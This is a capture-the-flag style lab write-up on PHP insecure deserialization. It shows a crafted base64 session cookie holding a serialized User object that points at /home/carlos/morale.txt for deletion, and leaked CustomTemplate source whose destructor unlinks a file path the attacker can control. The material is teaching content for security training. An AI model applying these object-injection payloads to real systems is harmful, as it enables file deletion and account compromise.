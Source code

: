 ```
POST /my-account/delete HTTP/1.1
...
Cookie: session=Tzo0OiJVc2VyIjozOntzOjg6InVzZXJuYW1lIjtzOjY6ImNhcmxvcyI7czoxMjoiYWNjZXNzX3Rva2VuIjtzOjMyOiJocHJxNGMycWI5NGZ2bHhlcDJvYTV0d3o0eHIweGJtdyI7czoxMToiYXZhdGFyX2xpbmsiO3M6MjM6Ii9ob21lL2Nhcmxvcy9tb3JhbGUudHh0Ijt9
```

`#Decoded O:4:"User":3:{s:8:"username";s:6:"carlos";s:12:"access_token";s:32:"hprq4c2qb94fvlxep2oa5twz4xr0xbmw";s:11:"avatar_link";s:23:"/home/carlos/morale.txt";}`

### Lab: Arbitrary object injection in PHP

This lab uses a serialization-based session mechanism and is vulnerable to arbitrary object injection as a result. To solve the lab, create and inject a malicious serialized object to delete the morale.txt file from Carlos's home directory. You will need to obtain source code access to solve this lab.

```
<!-- TODO: Refactor once /libs/CustomTemplate.php is updated -->

GET /libs/CustomTemplate.php~ HTTP/1.1
In response:

<?php

class CustomTemplate {
    private $template_file_path;
    private $lock_file_path;

    public function __construct($template_file_path) {
        $this->template_file_path = $template_file_path;
        $this->lock_file_path = $template_file_path . ".lock";
    }

    private function isTemplateLocked() {
        return file_exists($this->lock_file_path);
    }

    public function getTemplate() {
        return file_get_contents($this->template_file_path);
    }

    public function saveTemplate($template) {
        if (!isTemplateLocked()) {
            if (file_put_contents($this->lock_file_path, "") === false) {
                throw new Exception("Could not write to " . $this->lock_file_path);
            }
            if (file_put_contents($this->template_file_path, $template) === false) {
                throw new Exception("Could not write to " . $this->template_file_path);
            }
        }
    }

    function __destruct() {
        // Carlos thought this would be a good idea
        if (file_exists($this->lock_file_path)) {
            unlink($this->lock_file_path);
        }
    }
}

?>
```
